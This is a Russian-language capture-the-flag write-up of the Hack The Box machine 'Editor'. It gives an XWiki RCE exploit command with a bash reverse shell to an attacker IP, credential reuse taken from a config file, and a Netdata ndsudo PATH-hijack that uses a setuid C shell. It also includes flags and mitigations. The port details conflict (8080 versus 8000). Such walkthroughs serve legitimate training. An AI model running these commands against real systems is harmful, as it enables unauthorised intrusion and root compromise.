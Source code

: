 # 📝 Write-up: Editor (Hack The Box)

![editor](https://www.hackthebox.com/storage/avatars/7d4a6dfe5b291cbe7b4e13e5f5c4d6c3.png)

**Difficulty:** Easy
**Platform:** Hack The Box
**Target host (lab):** `editor.htb` — `10.10.11.80` (add to `/etc/hosts`)
**Link:** [Editor @ HTB](https://app.hackthebox.com/machines/Editor)

---

## 🎯 Summary

Editor — лёгкая Linux-машина. Ключевые шаги:

* Инициальный доступ через **XWiki RCE** (CVE-2025-24893).
* Горизонтальная эскалация: переиспользование пароля из конфигурации.
* Эскалация до root через уязвимый SUID-бинарь Netdata (CVE-2024-32019) с помощью PATH-hijack.

---

## 📋 Table of Contents

1. [Prerequisites / Notes](#-prerequisites--notes)
2. [Reconnaissance](#-reconnaissance)
3. [Enumeration](#-enumeration)
4. [Exploitation — Initial Foothold (XWiki)](#-exploitation--initial-foothold-xwiki)
5. [Privilege Escalation — User (password reuse)](#-privilege-escalation--user-password-reuse)
6. [Privilege Escalation — Root (Netdata ndsudo)](#-privilege-escalation--root-netdata-ndsudo)
7. [Mitigations & Lessons Learned](#-mitigations--lessons-learned)
8. [Replay / Reproduce checklist](#-replay--reproduce-checklist)
9. [References](#-references)

---

## 🔒 Prerequisites / Notes

* Это write-up для учебной (CTF/lab) среды Hack The Box — **не запускать против продакшн-систем**.
* В моих примерах `editor.htb` резолвится в `10.10.11.80`. Добавьте в `/etc/hosts`:

```bash
# add on атакующей машине
echo "10.10.11.80 editor.htb" | sudo tee -a /etc/hosts
```


---

## 🔍 Reconnaissance

Сначала — полный порт-скан `nmap`:

```bash
nmap -sC -sV -oA nmap/initial 10.10.11.80
```

Пример вывода (сокращённо):

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
3000/tcp open  http    Node.js (Express server)
8080/tcp open  http    XWiki 14.10.5

```

---

## 🕵️ Enumeration

### 🌐 HTTP — порт 80

* Статическая страница с документацией проекта.

### 🌐 HTTP — порт 8000 (XWiki)

* На порту `8000` запущен XWiki 14.10.5 — уязвимая версия.



---

## 🚀 Exploitation — Initial Foothold (CVE-2025-24893, XWiki RCE)

**Цель:** получить обратный шелл из XWiki.

> Подготовьте listener на своей машине:

```bash
# на вашей машине (атакующей)
nc -lvnp 4444
```

**Запуск эксплойта** (пример, используемый эксплоит — [https://github.com/gunzf0x/CVE-2025-24893](https://github.com/gunzf0x/CVE-2025-24893)):

```bash
# на атакующей машине
python3 exploit.py -t http://editor.htb:8080 -c "bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1"
```

**Примечание:** замените `<YOUR_IP>` своим IP; порт `8080` — порт XWiki в моём nmap-скане. Если у вас в nmap указано иначе — используйте реальный порт.


---

## 🔼 Privilege Escalation — User (Password reuse)

После фута нашли конфигурацию XWiki с учётными данными базы данных.

**Файл:** `/usr/lib/xwiki/WEB-INF/hibernate.cfg.xml`

```xml
<property name="hibernate.connection.password">theEd1t0rTeam99</property>
```

Эти же креды использовались для пользователя `oliver` по SSH:

```bash
ssh oliver@editor.htb
# Password: theEd1t0rTeam99
```

**User flag:** `bc2341152c638da4a05b91d91c1df26f`



---

## 🚀 Privilege Escalation — Root (CVE-2024-32019, Netdata `ndsudo`)

Netdata поставлялось с SUID-бинарём `ndsudo` в `opt/netdata` — анализ показал, что бинарь вызывает внешние утилиты без надёжного полного пути, что позволяет выполнить PATH-hijacking.

### Почему работает PATH-hijack

SUID-бинарь, запущенный от root, наследует переменные окружения (включая `PATH`) и выполняет дочерние программы без использования абсолютных путей. Если в начале PATH подставить папку с вашим «плохим» бинарём с именем ожидаемой утилиты — root выполнит ваш код.

### Эксплуатация — шаги

1. Создаём простой C-бинарь, поднимающий UID до 0 и открывающий шелл:

```bash
cat > /tmp/nvme-list.c <<'EOF'
#include <stdlib.h>
#include <unistd.h>
int main(){ setuid(0); system("/bin/bash"); return 0; }
EOF

gcc /tmp/nvme-list.c -o /tmp/nvme-list
chmod +x /tmp/nvme-list
```

2. Подставляем `/tmp` в начало PATH и запускаем уязвимый скрипт:

```bash
export PATH=/tmp:$PATH
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```

Если бинарь `ndsudo` искал `nvme-list` в PATH и нашёл `/tmp/nvme-list`, он выполнит его с правами root — вы получите root shell.

**Root flag:** `6d4d6c2368c3210994e624647c93119f`


---

## 🛡 Mitigations & Lessons Learned

* **Патчить XWiki** до версии, в которой закрыт CVE-2025-24893. Отключать публичный доступ к административным интерфейсам.
* **Не хранить чувствительные пароли в репозиториях/конфигурациях** в открытом виде; использовать секреты/обёртки.
* **Не оставлять SUID-бинарей без необходимости.** Обеспечивать, чтобы SUID-исполняемые файлы использовали абсолютные пути или очищали PATH.
* **Мониторинг и управление учётными записями** — уникальные пароли для сервисных и пользовательских учёток.

---


---

## 📚 References

* CVE-2025-24893 — XWiki RCE (exploit used: [https://github.com/gunzf0x/CVE-2025-24893](https://github.com/gunzf0x/CVE-2025-24893))
* CVE-2024-32019 — Netdata ndsudo PATH-hijack (description & PoC)

---
